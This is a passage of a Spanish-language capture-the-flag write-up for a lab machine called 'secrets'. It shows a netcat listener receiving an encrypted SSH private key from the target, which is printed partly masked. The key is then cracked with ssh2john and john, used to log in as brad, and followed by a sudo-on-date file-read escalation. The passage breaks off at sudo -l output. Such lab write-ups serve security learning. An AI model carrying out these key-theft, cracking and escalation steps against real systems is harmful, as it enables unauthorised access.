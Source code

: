 Al interpretarlos mejor entendí que cada vez que enviaba la ip en decimal el target intentaba mandarme data al puerto 6666. Sabiendo esto volví a mandar mi ip en decimal, pero esta vez en escucha en el puerto 6666.
```bash
$ nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.0.2.48] from (UNKNOWN) [10.0.2.111] 34618
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,478250418EF67EB4

MvfHsFbuTgPyi0PeU9dWPL8wVaIKHsuvYEIdwNJF42eDz0/L5kdoBnA8+yuWAI28
iI2jtehZHb/7PuaIsCtrzrJ0B1xXZYoeSc4Dfu2j1gi/ToaO3A6RHseHWHsjM9Qw
4AzHS13ze+EQTLHMnTu6eCADEXhwShgrHAmJpw4irdTca+wuY83n38obX0EhrXAs
E8zZfY8yMg4nuq9cP5pZ17IjvQbfk4cvfD4jNN4rXXn8WVlY5tdBH6Bg3lBoZDwD
VfNwZCmUrNIfMamNXjhMzkBNBwPXaNARokQded6c9Ie2PmdPMKPOkL/9QlM77OaE
d0xid9s1u4z2H/Q8GrODUc7eJar95bFLUySNoTiVFPqbVTvQ9tZNSWNTkQ5kgCXj
YRroAtvp0f0UdcPAOFRjsEFqQ4MqwZy26j1rhhAJQKg+q6SkyPv73kRotXajaAK3
irNHqNgzIKmkY9x9rfPTxiGw1oJyJxyNwQ3pZilih5AvI8EQBRVAN7Nb6utjDnkV
u1cjWr6ZN3lC67rhxwXZ9cub1KoQ1pwrzg0Iy1/x2d6zFHeuAkjlSeO8jkUpT1Eb
tdRdrJh712pW9vDg36VaQnrfeNVFPYmku0OXFXgsfiJ+XAJYQX+K2e4N3vRKuXSp
zH5nyL5d1r1Z+wn2s9Ial/zbhCUdOJiwZ87N7yIzCvykMnjEIPwytouWY/Ed4tq8
AqAegiMF5Y7M7+FC+ZH8EUvRCEzUPjS+T0KxgGY1KCTSUfL7QGZwQRKZ1hC879n6
ouj03SFu2VqiuMOXcs8lSjas5vyQgz4XhF58OUzi/BYrqCQBMV3W8RWviJzQvYwV
zBl5lkKsUMJ1Y4xLWBP64LnnEPRViPq7TGxYa6aTZ6rmTIe6dJORhIRVdPilGMYs
4462OpFpIYqWgKNGOJ1GMRf/juiE3J4pBwpslbefxt9SZnwnE9xHgRBInmqJgneC
38EJWyUwJqqlUSSoki3PB19KFpjy9U3YUPPF0Ff8jNg0x3FFLSFqLI4wyTPXH9+J
AalS64ttaP8PoiPxSK9oEXcj8RXVLq99Xdkq9gx25qw/Hca7wOIEUsAmjdtKYMVL
ccsaCrRsC1IMF3Wu1l4ihIwzBBA+l5ZhFIgD9hgUdtinchC3+TRI6r6Cnlbj2rB+
NrSpX7D3X1I5s15FmZuo1kkRH3xxjR1LLRuEjQkg3CTpZnUK5nDLgYo9dSnd0QzM
yOACjV6NiI1PJr7hM08OBuxd5I+FB8JyVJozQMMNoooNdvBNJvFoAXvaqqfY64fu
lYQXXEiPhOVajVGieA2tHmlLf7v6KDCqePZ+/KqxGqn+jIxsjjItCxOlW2OWxWCB
iLsB4JJ0NmKCFJh27wCvyMM1+Z8Kmt2BptCEREBHGxIkOraFBk6MN1bqBBi02UE/
C6piJetSpBUwjOOUs4hiwGRtYf5w4Hut8rsMs79/D3HsG8UPpZsrUKOcv8ZIosOg
+jOuyVfxN44ySVuB2gVVU904GHIdMRyBeR6*****************************
**************************************************
-----END RSA PRIVATE KEY-----
```
Me llego una id\_rsa encriptada.

Guarde la id\_rsa y la desencripte con la herramienta john.
```bash
$ ssh2john id_rsa > hash
$ john -w=/usr/share/wordlists/rockyou.txt hash
```
Encontré la clave de la id\_rsa por lo que intente conectarme a la máquina con el usuario brad que es el único que tenemos.
```bash
ssh -i id_rsa brad@10.0.2.111
Enter passphrase for key 'id_rsa': 
Linux secrets 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64
brad@secrets:~$ ls
user.txt
brad@secrets:~$ whoami
brad
```
# Shell como fabian
Enumerando encuentre que tenía permisos para ejecutar como fabian date. Encontré en <a href='https://gtfobins.github.io/gtfobins/date/'>gtfobins</a> que podemos usar este permiso para leer archivos que no me pertenezcan. Así que intente leer la id\_rsa de fabian, pero al parecer no existía.
```bash
brad@secrets:~$ sudo -l
Matching Defaults entries for brad on secrets:
```